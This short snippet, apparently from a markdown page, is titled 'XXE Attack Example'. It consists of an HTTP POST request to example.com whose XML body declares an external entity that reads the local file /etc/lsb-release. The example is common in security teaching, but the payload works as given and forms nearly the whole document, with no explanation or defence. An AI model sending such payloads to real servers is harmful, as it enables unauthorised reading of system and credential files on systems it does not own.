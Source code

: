 XXE Attack Example
``````
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/lsb-release">
]>
<foo>
  &bar;
</foo>
``````

